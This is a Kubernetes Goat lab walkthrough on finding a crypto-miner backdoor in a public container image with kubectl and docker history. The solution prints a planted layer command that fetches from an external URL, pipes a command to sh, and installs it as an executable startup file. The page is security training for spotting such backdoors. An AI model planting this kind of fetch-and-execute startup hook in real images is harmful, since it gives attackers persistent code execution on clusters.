 ```yaml
---
title: ⎈ Analyzing crypto miner container
sidebar_label: Welcome
sidebar_position: 2
description: Analyzing Crypto Miner from container in Kubernetes Cluster - Kubernetes Goat Scenario 🚀
slug: analyzing-crypto-miner-in-kubernetes-cluster-container/welcome
---
```


# ⎈ Analyzing crypto miner container

## 🙌 Overview

It's commonly seen that most of the container users download the images from the public container registries like Docker Hub and others. We have seen a ton of hacks and compromises of these and also attackers abusing these by uploading the container images which has crypto miners to use the cluster resources. In this scenario, we see one simple and very common way of exploiting these vulnerabilities in the public container images.

![](../images/scenario-diagram-wip.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to analyze the container image
2. Understanding Kubernetes jobs and working with them
3. Learning about container image manifests and the backdoors and crypto miners

### ⚡️ The story

Crypto mining has become popular with modern infrastructure. Especially environments like Kubernetes are an easy target as you might not even look at what exactly the container image builds upon and what it is doing with proactive monitoring. Here in this scenario, we will analyze and identify the crypto miner.

:::info

- To get started, identify all the resources/images in the Kubernetes cluster including jobs

```bash
kubectl get jobs
```

:::

![Scenario 10 get jobs](../images/sc-10-1.png)

### 🎯 Goal

:::tip

To complete this scenario find the `k8s_goat_flag` flag value in the batch-job container image

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Found the container image? </b></summary>
  <div>
    <div>Learn to inspect the container images using the built-in commands in docker 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Still no flag? </b></summary>
  <div>
    <div>Learn to understand how container layers created using history command with full data 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

Identify all resources within a Kubernetes cluster. If possible get into details of each container image available in all the nodes within the cluster as well

:::

- Once we have identified the job in the Kubernetes cluster, we can obtain the pod information by running the following command

```bash
kubectl describe job batch-check-job
```

![Scenario 10 get job info](../images/sc-10-2.png)

- Then get the pod information by running the below command which showcases the pods with the labels and selectors matching

```bash
kubectl get pods --namespace default -l "job-name=batch-check-job"
```

- We can get all the information of the pod spec by running the following command, which returns the entire manifest information in the `YAML` output format

```bash
kubectl get pod batch-check-job-xxxx -o yaml
```

![Scenario 10 get pod info](../images/sc-10-3.png)

- We can see that this job pod is running `madhuakula/k8s-goat-batch-check` docker container image

- Now we can perform an analysis of this container image, by looking at its layers and how it got created. Here we can see that it contains a command executing the external script in the build time in one of the layer

```bash
docker history --no-trunc madhuakula/k8s-goat-batch-check
```

![Scenario 10 get docker history](../images/sc-10-4.png)

```bash
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
```

- Hooray 🥳 , now we can see that it contains the Kubernetes Goat flag

:::danger

This is the common way attackers push crypto miner images into the public container registries where we don't have a way to introspect the `Dockerfile` and end up running crypto miners as we don't know how the container image has been built

:::

## 🔖 References

- [Docker Hub Hack of 190k accounts review](https://medium.com/madhuakula/some-tips-to-review-docker-hub-hack-of-190k-accounts-addcd602aade)
- [20 Million Miners: Finding Malicious Cryptojacking Images in Docker Hub](https://unit42.paloaltonetworks.com/malicious-cryptojacking-images/)
- [Tainted, crypto-mining containers pulled from Docker Hub](https://techcrunch.com/2018/06/15/tainted-crypto-mining-containers-pulled-from-docker-hub/)
